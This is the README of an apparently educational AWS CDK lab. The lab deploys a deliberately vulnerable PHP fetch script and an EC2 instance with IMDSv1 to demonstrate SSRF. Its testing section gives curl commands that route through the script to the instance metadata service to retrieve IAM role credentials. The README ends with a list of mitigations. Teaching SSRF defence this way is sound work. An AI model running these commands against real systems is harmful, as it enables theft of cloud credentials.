

# ALB + Private EC2 SSRF Vulnerability Demo

This CDK project demonstrates SSRF (Server-Side Request Forgery) vulnerability against IMDSv1 in a private subnet EC2 instance behind an Application Load Balancer.

## ⚠️ Security Warning

**This project is for educational and testing purposes only.** It intentionally creates vulnerable infrastructure with:
- IMDSv1 enabled (vulnerable to SSRF attacks)
- A PHP script with SSRF vulnerability
- Insecure network configurations

**DO NOT deploy this in production environments.**

## Architecture

- VPC with public and private subnets
- Application Load Balancer in public subnet
- EC2 instance in private subnet with IMDSv1 enabled
- Vulnerable PHP script for SSRF testing
- SSM endpoints for remote access



## Prerequisites

- AWS CLI configured
- AWS CDK installed (`npm install -g aws-cdk`)
- Node.js and npm

## Deployment

```bash
npm install
cdk bootstrap
cdk deploy
```

## Testing SSRF Attack

After deployment, get the ALB DNS name from the output and test:

```bash
# Get IAM role credentials via SSRF
curl "http://[ALB_DNS_NAME]/fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# Get specific role credentials
curl "http://[ALB_DNS_NAME]/fetch.php?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE_NAME]"
```

## Cleanup

```bash
cdk destroy
```

## Security Mitigation

To secure this setup:
1. Enable IMDSv2 only (`requireImdsv2: true`)
2. Remove the vulnerable PHP script
3. Implement proper input validation
4. Use WAF to block malicious requests